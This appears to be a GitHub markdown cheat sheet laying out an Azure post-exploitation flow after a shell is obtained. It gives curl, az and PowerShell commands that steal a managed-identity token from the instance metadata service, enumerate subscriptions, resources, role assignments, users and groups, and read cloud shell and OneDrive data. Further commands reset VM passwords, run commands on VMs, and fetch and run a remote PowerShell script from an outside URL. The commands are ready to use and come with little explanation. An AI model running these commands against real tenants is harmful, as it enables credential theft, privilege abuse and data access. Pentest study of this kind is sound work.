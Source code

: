#Exploitation Flow 

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

### 5. ARM resources
List resources user has atlease read privilege
```az role assignment list --scope <resource-id> --include-inherited```
```curl -X GET -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" "https://management.azure.com/<resource-id>/providers/Microsoft.Authorization/roleAssignments?api-version=2020-04-01-preview"```

Access cloud shell drive data
```
curl -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" -X GET "https://portal.azure.com/api/v1/?environment=clouddrive"
```

Get deployment history ```az deployment group list --resource-group rgname```

#### VM commands

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for running a ps script
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

### 6. MS Graph access
Get access token
```az account get-access-token --resource https://graph.microsoft.com```

Get user info
```curl -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/me```

Get list of users
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/users ```

Get list of Groups
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/groups```

Get groups
```
az role assignment list --scope /subscriptions/2213e8b1-dbc7-4d54-8aff-b5e315df5e5b/resourceGroups/1-6417d8f7-playground-sandbox/ --include-inherited
```

List of groups I am a member of 
```
curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/memberOf/$/microsoft.graph.group?$filter=groupTypes/any(c:c%20eq%20'unified')"
```

curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/drive/root/children"


### Misc useful commands


### Lab setup 
```az deployment group create --resource-group sec --template-file ./file.json```
